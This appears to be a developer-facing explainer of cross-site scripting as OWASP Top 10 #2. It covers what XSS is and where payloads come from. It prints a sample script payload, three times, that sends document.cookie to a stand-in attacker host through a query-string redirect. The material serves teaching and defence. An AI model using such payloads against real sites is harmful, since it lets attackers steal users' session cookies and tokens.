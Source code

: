 # OWASP Top 10 #2 - Cross Site Scripting (XSS) #

## What is it? ##

Cross-site Scripting (XSS) is a variation of a code injection attack where an attacker injects client-side script onto a vulnerable website which is later unintentionally executed by a user.

The client side script could be VBScript, ActiveX, Flash or JavaScript.

The attack makes use of unvalidated or unencoded user input which is outputted by the website and then executed by the user's web browser.

## How does it happen? ##

In its simplest form a script is taken from a query string parameter;

```
www.foo.com/foo.aspx?q=foo<script> location.href = 'http://BadSite/DoSomethingBad.html?cookie='%2Bdocument.cookie</script>
```

Here our query string parameter contains a malicious payload:

```
<script> location.href = 'http://foo/dosomethingbad.html?cookie='%2Bdocument.cookie</script>
```

Rendering the requested parameter value as is within outputted html within a client browser, i.e. without any encoding, will cause the script to be executed. 

Here we show how an injected script could pass the value of a cookie to our hacker's site:

```
<span>
	You searched for <script> location.href = 'http://foo/dosomethingbad.html?cookie='%2Bdocument.cookie</script>
</span>
```

This cookie value could contain an authorisation token or other sensitive data which could be used to exploit the user further.

### Sources of an attack ###

The client side script or malicious payload can come from many sources:

- In the URL via a query string or route parameter
- Http form posted
- In cookies
- Http request headers
- Web services calls
- Persisted in databases
- Files such as XML, XSD, CSV

In fact anything which does not come directly from our source code should be treated as potentially malicious. That includes data and services from within the bounds of our company as well as data entered directly from our users, even if they are our colleagues operating on back office software.
